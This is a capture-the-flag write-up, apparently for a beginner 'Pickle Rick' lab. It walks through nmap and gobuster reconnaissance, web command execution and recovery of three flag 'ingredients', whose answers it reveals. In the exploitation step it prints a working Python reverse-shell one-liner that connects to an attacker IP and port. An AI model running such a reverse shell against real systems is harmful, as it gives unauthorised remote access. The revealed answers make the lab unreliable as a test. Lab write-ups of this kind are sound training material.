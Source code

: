 # Problem

![image](https://github.com/user-attachments/assets/ee876d3e-1cbb-4e39-aa16-8c1400f4d977)

# Solution

## Step 1: Reconnaissance

**Command Used:**

```
nmap -sCV -A -T4 [IP address]
```

**Results:**

![image](https://github.com/user-attachments/assets/73d33630-f463-46e2-8a5d-76222fb037e6)

## Step 2: Enumeration

### Fuzzing

**Command Used:**

```
gobuster dir -u [Website] -w /usr/share/wordlists/dirb/common.txt -x php,html,js
```

**Note:** You can use other wordlists if you want

**Results:**

![image](https://github.com/user-attachments/assets/b5ed2129-038f-44a4-b1f8-22340665e59a)

### Scouting Website

Found this:

![image](https://github.com/user-attachments/assets/a875efd4-ead4-4726-b841-b54a9e7289b3)

And this:

![image](https://github.com/user-attachments/assets/bb36ac61-8c54-4dbe-a68b-f32150f38ab1)

Which was credentials for this:

![image](https://github.com/user-attachments/assets/5ebabfca-c9ff-4c65-b08f-7e292218ba04)

So now we have this:

![image](https://github.com/user-attachments/assets/9ca67d67-6fb6-4fb3-8c13-55834b13ddad)

## Step 3: Exploitation

**Commands Used:**

```
ls
less Sup3rS3cretPickl3Ingred.txt // no cat
```

**First Ingredient: mr. meeseek hair** 

**Note:** Some commands were disabled

Anyways I got tired of using the command line in the website so I just popped a rev shell :p

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.102.197",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Forgot to mention there was a clue.txt file that told us to search the file system, it's in /home/rick btw

![image](https://github.com/user-attachments/assets/3630a8c2-af26-4fe2-b6bc-8981db20bac7)

**Second Ingredient: 1 jerry tear**

Last one I had a feeling it was in /root, so...

![image](https://github.com/user-attachments/assets/e94769ab-05f1-4bd0-9efe-f2f55e805d31)

**Final Ingredient: fleeb juice**
